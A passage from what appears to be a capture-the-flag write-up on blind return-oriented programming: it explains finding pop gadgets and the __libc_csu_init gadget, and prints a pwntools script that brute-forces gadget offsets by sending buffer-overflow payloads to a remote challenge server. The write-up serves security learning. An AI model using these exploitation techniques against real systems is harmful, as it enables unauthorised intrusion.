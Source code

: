 Now that we have a stop gadget, we can start looking for pop gadgets! Pop gadgets (in amd64) work by popping the next 8 bytes from the stack into the specified register. As a result, we can detect the presence of a pop gadget by creating a ROPchain that looks like: candidate gadget + not an allocated address + stop gadget. In addition, in cases where more than one pop is chained together, followed by a ret (i.e. the common pop rsi; pop r15; ret gadget), you can simply add more non-allocated addresses between the candidate gadget and the stop gadget to find pop chains of the length.

One of the main possible issues with this approach is that it is relatively difficult to determine which pop gadgets correspond with which registers. Fortunately, __libc_csu_init() exists, and is present in most amd64 binaries unless they are compiled oddly. As a refresher, here is what the end of that function typically looks like.

![image](https://user-images.githubusercontent.com/10614967/179447739-08ab7f8c-e601-4a01-9229-26a13128a809.png)

While those pop gadgets don't necessarily look super useful, jumping into the middle of them provides control over the rdi and rsi registers, which in turn means control of the first and second arguments in function calls. Also, most binaries do not have any other examples of six pop gadgets in a row followed by a ret, so once that pattern is located, it is pretty safe to assume that you have hit the end of __libc_csu_init(), also known as the BROP or Blind ROP gadget.
```
gef➤  x/3i 0x00000000004011c1
   0x4011c1 <__libc_csu_init+97>:       pop    rsi
   0x4011c2 <__libc_csu_init+98>:       pop    r15
   0x4011c4 <__libc_csu_init+100>:      ret
gef➤  x/2i 0x00000000004011c3
   0x4011c3 <__libc_csu_init+99>:       pop    rdi
   0x4011c4 <__libc_csu_init+100>:      ret
```
As a result, the end of the brute forcing script can be slightly adjusted and rerun as follows:
```
from pwn import *
for i in range(0, 0x1000): 
    target = remote('0.cloud.chals.io', 21978)
    ... #Same as before
    padding = b'a' * 16 
    stop_gadget = pop_rax - 0x1c4 + 144
    test_address = pop_rax - 0x1c4 + i
    
    payload = padding + p64(test_address) + p64(1) * 6 + p64(stop_gadget)
    print(target.recvuntil(b'(Y/*) >>>'))
    target.sendline(payload)
    result = target.recvall(timeout=1)
    print(result)
    if b'You stay the course' in result:
        print('winner')
        print(hex(test_address))
        print(i)
        target.close()
        break
    print('i is', i)
    target.close()
```
And the BROP gadget seems to start at 914 bytes from the start of the scanning space. It does take a little bit of time to get this far, and a few false positives are still hit; in these cases, you can just try the same offset again without the stop gadget at the end and see if the terminal output changes. If it doesn't, you have probably just accidentally replicated the existing stop gadget and should edit the for loop's starting value according to the values already checked.
```
b' ~ push 0x0f050f05; ret |'
b' 0x55e92d54f1cf\n'
syscall at 0x55e92d54f1d1
b'~ Would you like another push (Y/*) >>>'
[+] Receiving all data: Done (629B)
[*] Closed connection to 0.cloud.chals.io port 21978
```